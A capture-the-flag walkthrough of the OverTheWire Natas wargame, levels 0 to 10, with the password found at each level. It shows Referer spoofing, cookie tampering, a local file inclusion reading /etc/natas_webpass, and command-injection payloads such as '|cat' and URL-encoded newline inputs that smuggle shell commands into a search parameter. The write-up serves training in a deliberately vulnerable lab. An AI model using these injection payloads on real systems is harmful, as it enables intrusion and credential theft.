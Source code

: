 https://overthewire.org/wargames/natas/

<h1>level0:</h1>

visiting http://natas0.natas.labs.overthewire.org/

inspect and found the password as a comment 
```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto-->
```


<h1>level1:</h1>

visiting http://natas1.natas.labs.overthewire.org/

right click was disabled so **ctl+shift+i**
```
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi-->
```


<h1>level2:</h1>

visiting http://natas2.natas.labs.overthewire.org/

inspected source code and found /files/pixel.png then went to /files/ which lead to http://natas2.natas.labs.overthewire.org/files/users.txt 
```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```


<h1>level3:</h1>

visiting http://natas3.natas.labs.overthewire.org/

since it said google wont get it in the inspect source as a comment, that means robots.txt
on http://natas3.natas.labs.overthewire.org/robots.txt
```
User-agent: *
Disallow: /s3cr3t/
```
went to http://natas3.natas.labs.overthewire.org/s3cr3t/ and then to http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
```
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```


<h1>level4:</h1>

visiting http://natas4.natas.labs.overthewire.org/
via burpsuite i added this header in the request 
```
Referer: http://natas5.natas.labs.overthewire.org/
```
resulted in
```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```


<h1>level5:</h1>

visiting http://natas5.natas.labs.overthewire.org/

in inspect code > storage i changed the cookie loggedin:0 to loggedin:1 and refreshed the page 
```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```



<h1>level6:</h1>

visiting http://natas6.natas.labs.overthewire.org/

in http://natas6.natas.labs.overthewire.org/index-source.html i found the /includes/secret.inc path so i went http://natas6.natas.labs.overthewire.org/includes/secret.inc 
but nothing was there, so i inspected the page 
```
?
$secret = "FOEIUWGHFEEUHOFUOIU";
?
```
submit it and 
```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 
```


<h1>level7:</h1>

visiting natas7.natas.labs.overthewire.org
```
hint: password for webuser natas8 is in /etc/natas_webpass/natas8 
```
clicking at **home** and **about** gave us the parameter **?page=** so paste that path there
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```


<h1>level8:</h1>

visiting natas8.natas.labs.overthewire.org

in http://natas8.natas.labs.overthewire.org/index-source.html
```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
```
first i used [cipher identifier](https://www.boxentriq.com/code-breaking/cipher-identifier) which said hex so decoded from hex in [cyberchef](https://gchq.github.io/CyberChef) **==QcCtmMml1ViV3b** and reversed it in https://codebeautify.org/reverse-string that gave **b3ViV1lmMmtCcQ==** then decoded from base64 **oubWYf2kBq** and submitted it
```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl 
```



<h1>level9:</h1>

visiting natas9.natas.labs.overthewire.org

first i submitted "needle" and gave me a bunch of words containing "needle" then i tried http://natas9.natas.labs.overthewire.org/?needle=*&submit=Search and gave me all of the file this meant that its executing it
since all password stored in **/etc/natas_webpass** then http://natas9.natas.labs.overthewire.org/?needle=*|cat%20/etc/natas_webpass/natas10&submit=Search
```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```



<h1>level10:</h1>

visiting natas10.natas.labs.overthewire.org

http://natas10.natas.labs.overthewire.org/index-source.html is filtering some symbols, so i tried 
```
* /etc/natas_webpass/natas11
```
that didnt work but i saw a writeup that added a dot and that worked
```
.* /etc/natas_webpass/natas11
```
or a new line encoded in URL
```
%0Acat /etc/natas_webpass/natas11
```
gave
```
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

